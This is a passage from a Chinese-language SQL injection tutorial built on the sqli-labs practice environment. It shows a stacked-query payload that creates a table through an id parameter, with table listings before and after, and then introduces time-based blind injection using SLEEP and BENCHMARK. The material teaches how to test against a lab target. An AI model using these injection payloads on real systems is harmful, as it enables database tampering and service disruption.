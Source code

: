 此处正是使用 mysqli\_multi\_query 函数实现的多语句查询。我们可以尝试插入另一条语句来创建表：

```
http://localhost/Less-38?id=1';create table sqli like users;
```

执行前的表：

```
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| uagents            |
| users              |
+--------------------+
4 rows in set (0.00 sec)
```

执行后，成功创建 sqli 表，说明第二条语句执行成功：

```
mysql> show tables;
+--------------------+
| Tables_in_security |
+--------------------+
| emails             |
| referers           |
| sqli               |
| uagents            |
| users              |
+--------------------+
5 rows in set (0.00 sec)
```

#### 基于时间延迟盲注

基于时间延迟盲注是通过时间延迟来判断是否存在 SQL 注入的常用方法，是用于无任何错误回显情况下的盲注。对于正确语句和错误语句都返回相同内容时也可以使用，所以它的适用范围相对广一些。

> 注意：在实际测试过程中，特别是线上业务测试，要避免使用过长时间的延时，否则会影响业务的正常运行。换句话说，能够延时注入就基本代表可以去网站进行拒绝服务攻击。

在 MySQL 常用的延时注入方法中，比较实用的有以下 3 种。

（1）**SLEEP(duration)**：该函数用于休眠，起到延时操作的作用，其参数以秒为单位。

```
mysql> select sleep(5);
+----------+
| sleep(5) |
+----------+
|        0 |
+----------+
1 row in set (5.00 sec)
```

（2）**BENCHMARK(count,expr)**：重复计算 expr 表达式 count 次。
